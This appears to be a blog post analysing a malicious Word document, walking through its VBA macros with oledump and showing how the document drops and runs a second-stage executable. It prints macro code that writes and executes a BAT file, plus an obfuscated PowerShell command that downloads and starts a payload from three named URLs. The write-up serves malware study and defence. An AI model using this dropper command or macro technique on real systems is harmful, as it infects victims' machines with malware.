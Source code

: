 ```yaml
---
title: Get2092708251.doc
date:  2020-02-01 12:00:00
excerpt: "This post attempts to describe the approach to reverse engineering a malicious Microsoft Word document found on *hybrid-analysis.com*."
---
```


This post attempts to describe the approach to reverse engineering a malicious Microsoft Word document found on *hybrid-analysis.com*.
Following an overview of the malicious document:
```
URL: https://www.hybrid-analysis.com/sample/8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d?environmentId=120
MD5: 0f1684b297915b3585cf2169a255e6d5
File type: Microsoft Word 2007+
```

## Technical analysis

Downloaded the malware sample from hybrid-analysis.com, we had a gzip archive containing the malicious Microsoft Word document (`8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d.bin`).
A common approach to embed a malware inside a Word document is through a VBA macro. Hence, the document it was unzippend as shown below.

```
$ 7z x 8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d.bin
$ tree
── customXml
│   ├── item1.xml
│   ├── itemProps1.xml
│   └── _rels
│       └── item1.xml.rels
├── docProps
│   ├── app.xml
│   └── core.xml
├── _rels
└── word
    ├── document.xml
    ├── endnotes.xml
    ├── fontTable.xml
    ├── footnotes.xml
    ├── media
    │   └── image1.jpg
    ├── _rels
    │   ├── document.xml.rels
    │   └── vbaProject.bin.rels
    ├── settings.xml
    ├── stylesWithEffects.xml
    ├── styles.xml
    ├── theme
    │   └── theme1.xml
    ├── vbaData.xml
    ├── vbaProject.bin
    └── webSettings.xml
```

Unzipping the document it was noted that the `word/vbaData.xml` file contains two VBA macro names embedded on our document. Below is shown the `word/vbaData.xml` content:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<wne:vbaSuppData ... >
  <wne:mcds>
    <wne:mcd wne:macroName="ECLIPSGAZETTE.CARROW.AUTOOPEN" wne:name="EclipsGazette.Carrow.autoopen" wne:bEncrypt="00" wne:cmg="56"/>
    <wne:mcd wne:macroName="ECLIPSGAZETTE.CARROW.COPYTOA" wne:name="EclipsGazette.Carrow.CopyToA" wne:bEncrypt="00" wne:cmg="56"/>
  </wne:mcds>
</wne:vbaSuppData>
```

As shown above, during the analysis two VBA macro on our sample have been found: `EclipsGazette.Carrow.autoopen` and `EclipsGazette.Carrow.CopyToA`.


### Stage 1

As discovered on the `vbaData.xml` file, the malicious document contains some VBA macro. Therefore, the `oledump.py` tool has been used in order to better understand the document structure and VBA code embedded on our document.
Below is shown the `oledump.py` output, displaying the identified `Carrow` VBA module on the `A12` section:

```
$ python oledump.py 8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d.bin
A: word/vbaProject.bin
 A1:        97 'BlueControl/\x01CompObj'
 A2:       328 'BlueControl/\x03VBFrame'
 A3:       235 'BlueControl/f'
 A4:       112 'BlueControl/i03/\x01CompObj'
 A5:       109 'BlueControl/i03/f'
 A6:         0 'BlueControl/i03/o'
 A7:       948 'BlueControl/o'
 A8:       840 'PROJECT'
 A9:       254 'PROJECTwm'
A10: M    2355 'VBA/Apple'
A11: m    1202 'VBA/BlueControl'
A12: M    4611 'VBA/Carrow'
A13: M    8939 'VBA/ClockFinished'
A14: m     932 'VBA/EndTime'
A15: M    1924 'VBA/EnumsTip'
A16: M    1305 'VBA/Potatoes'
A17:      8571 'VBA/_VBA_PROJECT'
A18:      2140 'VBA/__SRP_0'
A19:        98 'VBA/__SRP_1'
A20:       104 'VBA/__SRP_2'
A21:       179 'VBA/__SRP_3'
A22: M   18253 'VBA/cPalette'
A23:      1398 'VBA/dir'
A24: M   12160 'VBA/wDelcares'
```

As shown above, the document contains multiple VBA modules. The following `oledump.py` command has been performed in order to extract the `Carrow` VBA macro.

```
$ python oledump.py -s A12 -v 8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d.bin
```

It was noted that the `Carrow` macro contains two main functions, declared also on the `vbaData.xml` file: `autoopen` and `CopyToA`.

The `autoopen` macro creates and executes a BAT file on the victim host. <br />
The `copyToA` macro tries to copy and spread the malicious document across others documents on the victim host.

Specifically, the `autoopen` macro create the `C:\APPLE\2614945622319.BAT` file:
```
lHandle = CreateFileA("C:\APPLE\2614945622319.BAT", GENERIC_WRITE Or GENERIC_READ, _
                         &H2, 0, CREATE_ALWAYS, FILE_SHARE_WRITE, 0)
```

write something on the `2614945622319.BAT` file created above:
```
Open "C:\APPLE\2614945622319.BAT" For Output As #1
    Print #1, BlueControl.FAQ.Caption
Close #1
```

and execute the `2614945622319.BAT` file:
```
Testing
End Function
```
where `Testing` function is a wrapper to the following VBA code defined on the `EnumsTip` VBA module:
```
Public Sub ExecCmd(cmdline As String)
  Dim Proc As PROCESS_INFORMATION
  Dim start As STARTUPINFO
  Dim ReturnValue

  start.cb = Len(start)
  start.dwFlags = 1&
  ReturnValue = CreateProcessA(0&, cmdline$, 0&, 0&, 0&, _
  NORMAL_PRIORITY_CLASS, 0&, 0&, start, Proc)

  Do
    ReturnValue = WaitForSingleObject(Proc.hProcess, 0)
  DoEvents
  Loop Until ReturnValue <> 258

  ReturnValue = CloseHandle(Proc.hProcess)
End Sub
```

As shown above, the `autoopen` function writes on the `2614945622319.BAT` file some data using the following VBA code:
```
Open "C:\APPLE\2614945622319.BAT" For Output As #1
    Print #1, BlueControl.FAQ.Caption
Close #1
```

The `BlueControl` is a VBA module which contains a Windows Form named `FAQ`. Moreover, the *FAQ* form contains a Windows shell command on its `Caption` property.

![libreoffice]({{ site.url }}/assets/images/posts/reversing-the-get2092708251-maldoc/reversing-the-get2092708251-maldoc-libreoffice.png)

Below is shown the Windows shell command found on the *Caption* property of the *BlueControl.FAQ* form:

```
p^o^w^e^r^s^h^e^l^l^ ^-^C^o^m^m^a^n^d^ ^$ran^dom ^= ^ne^w-o^bj^ec^t ra^ndo^m; F^ore^ac^h(^$u^rl^ in ^@('^http://mmrm.ir/wp-content/uploads/2020/02/after/444444.png','http://borgodellamerluzza.it/ws0101/wp-content/uploads/2020/02/after/444444.png','https://blog.pingobox.com.br/wp-content/uploads/2020/02/after/444444.png^')) ^{ t^ry{^ $n^am^e = ^$ra^nd^om.n^ext^(5245867, ^985425895^); ^$p^at^h = $^en^v:^program^data +^ '\' ^+ $n^am^e + '^.e^xe^'; (^Ne^w-O^bje^ct N^et.W^ebCl^ien^t).D^own^loa^dFi^le($^ur^l.To^St^ring(^), $^pa^th);^St^art ^$pa^th; ^br^ea^k;}c^at^ch{w^ri^te-^ho^st $_^.E^xc^ept^io^n.^Me^s^sa^g^e^}^}^
```

During the analysis it was noted that the malicious Word document creates the `2614945622319.BAT` BAT file and execute it. Hence, the `2614945622319.BAT` BAT file tries to download the `444444.png` file from the following URL and execute it:
- http://mmrm.ir/wp-content/uploads/2020/02/after/444444.png 
- http://borgodellamerluzza.it/ws0101/wp-content/uploads/2020/02/after/444444.png
- https://blog.pingobox.com.br/wp-content/uploads/2020/02/after/444444.png


### Stage 2

During the analysis it was discovered that the malicious Word document acting as a *droppper*. Therefore, during the execution it downloads a stage 2 file (`444444.png`) from a remote host and running it on the victim host.

It was noted that the `444444.png` file is PE32 executable file. Below are shown some details about this file:
```
Filename: 444444.png
MD5: b92ae63f5ec03192babe48ace0c3f7b9
File type: PE32 executable (GUI) Intel 80386, for MS Windows
File size: 1012 kb
```

A deep analysis of this file is out of scope of this post but after a preliminary assessment of the `444444.png` file it was noted that it performs multiple actions (e.g. runtime self-extraction and persistence on the victim host).

The `444444.png` file decode and create its code at runtime, such as shellcodes, making the static analysis pratically impossible or very time consuming.

...




## Detection

...





